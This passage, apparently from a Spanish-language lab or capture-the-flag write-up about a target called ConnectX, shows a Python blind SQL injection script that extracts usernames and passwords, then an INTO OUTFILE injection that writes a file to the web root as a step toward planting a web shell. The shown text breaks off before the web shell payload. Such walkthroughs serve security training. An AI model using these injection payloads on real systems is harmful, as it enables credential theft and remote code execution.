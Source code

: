 ```python
        
            data = {
                'username' : "admin' and substring((select group_concat(BINARY(username),0x3a,BINARY(password)) from connectx.users),%d,1)='%s'-- -" % (position, character)
            }
            
            r = requests.post(main_url, data=data, cookies=cookies, allow_redirects=False)
            p1.status(data["username"])
            
            if "ChatGPT" in r.text:
                cadena += character
                p2.status(cadena)
                break

if __name__ == '__main__':
    makeSQLI()
```

Veremos como de igual forma conseguimos dumpear la información de la base de datos. En este punto, podemos intentar crackear el hash del usuario **admin**, pero no tendremos éxito.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250318173152.png>)
### RCE

Como hemos visto, la información extraída no nos lleva a nada, así que intentaremos escribir contenido en un fichero. Para ello, realizaremos la siguiente **SQL Injection**.

```bash
username=admin'+union+select+'test'+into+outfile+'/var/www/connectx.bbl/test.txt'--+-
```

Como se puede apreciar, hemos conseguido escribir contenido en un fichero a partir de una **SQL Injection**

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250216181846.png>)

En este punto, escribiremos en un fichero el contenido de una **Web Shell**. En resumen, debemos ejecutar la siguiente **SQL Injection**.

